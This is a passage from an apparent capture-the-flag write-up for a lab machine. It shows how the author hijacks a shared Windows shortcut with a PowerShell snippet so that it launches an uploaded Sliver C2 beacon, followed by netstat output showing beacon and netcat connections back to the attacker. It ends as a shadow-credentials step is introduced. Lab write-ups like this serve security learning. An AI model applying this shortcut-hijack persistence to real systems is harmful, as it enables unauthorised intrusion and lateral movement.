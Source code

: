 So there is a user activity in ```C:\Common Applications``` if we can replace for example ```Calculator.lnk``` with a malicious .lnk we gonna be able to gain a shell as the user who go in ```C:\Common Applications```

I generated a beacon with sliver, i uploaded him on the target machine and create the malicious .lnk like this 

```powershell
$WshShell = New-Object -COMObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("C:\Common Applications\Calculator.lnk")
$Shortcut.TargetPath = "C:\xampp\htdocs\data\modules\aa\beacon.exe"
$Shortcut.Save()
```
Now just wait....

![alt text](<../assets/image_mist/4er beacon.png>)

Nice we are Brandon.Keywarp

## Coerce MS01$ thanks to a WebDav Server to perform a ShadowCreds attack

Ok so at this point of the box, i'm not going to detail all the research i did and everything i tried otherwise this post will be way too long so i'll get straight to the point :

Brandon.Keywarp have 0 interesting rights but we have a shell on the machine and if we do a ```netstat``` we can see this : 

```bash
[server] sliver (EMBARRASSING_ENTRY) > netstat

 Protocol   Local Address           Foreign Address   State         PID/Program Name 
========== ======================= ================= ============= ==================
 tcp        192.168.100.101:80      eliott.:46436     ESTABLISHED   2464/httpd.exe   
 tcp        192.168.100.101:80      eliott.:57298     CLOSE_WAIT    2464/httpd.exe   
 tcp        192.168.100.101:80      eliott.:58494     CLOSE_WAIT    2464/httpd.exe   
 tcp        192.168.100.101:56803   eliott.:1234      CLOSE_WAIT    2852/httpd.exe   
 tcp        192.168.100.101:56805   eliott.:1234      CLOSE_WAIT    2852/httpd.exe   
 tcp        192.168.100.101:56849   eliott.:1234      ESTABLISHED   4544/nc.exe      
 tcp        192.168.100.101:56923   eliott.:8888      ESTABLISHED   4408/beacon.exe
```
We also know that we are on ```MS01``` so there is potentially a DC, let's do a fscan : 
